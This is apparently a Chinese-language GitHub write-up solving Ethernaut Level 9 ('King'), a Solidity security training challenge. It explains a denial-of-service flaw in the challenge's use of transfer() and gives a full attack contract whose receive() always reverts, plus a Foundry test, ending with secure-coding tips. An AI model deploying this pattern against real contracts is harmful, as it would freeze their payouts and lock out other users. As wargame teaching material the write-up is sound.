

<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 9 - King</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 9 - King](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

谁出资更高的时候，谁就成为king，目标让自己成为king之后，别人无法夺取；


## 漏洞

在这一关，目标是成为国王，然后确保合约不能将奖金转移给下一个国王。换句话说，我们必须成为王者并一直保持国王，然后打破游戏。

我们需要理解 `transfer`（现在基本被弃用） 是如何在solidity中工作的。如果`transfer`失败，此函数抛出错误，但不返回布尔值。这意味着如果`transfer`失败，交易将恢复。

```javascript
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```
首先，我们需要检查`prize`函数，看看需要多少ether才能通过`require`条件并成为国王。

我们成为国王后，怎么能确保没有人能废黜我们呢?我们可以利用`transfer()`函数的失败恢复的特性，你想到了吗？答案很简单，我们只需要部署一个合约然后让他成为国王，只要不给合约没有定义`receive()`或`fallback()`函数，或者将`receive()`或`fallback()`函数内容直接revert，那么合约将无法接收任何eth，这将有效地阻止任何人成为我们之后的新国王。

## 解答

部署一个合约，然后将`receive()`函数设置为revert。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    King instance;

    constructor(address payable fb) payable {
        instance = King(fb);
    }

    function attack() public payable {
        (bool success, ) = address(instance).call{value: msg.value}("");
        require(success, "we are not the new king");
    }

    receive() external payable {
        revert("king!");
    }
}
```

然后可以利用foundry进行测试

```javascript
    attacker.attack{value: instance.prize() + 1}();
    assertEq(instance._king(), address(attacker));
```

## 要点

- `send` 和 `transfer` 现在已被弃用。即使是`call`，使用时，最好按照，检查-效果-交互的模式调用，以防止重入问题。
- <b>外部调用必须谨慎使用，必须正确处理错误。</b>

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
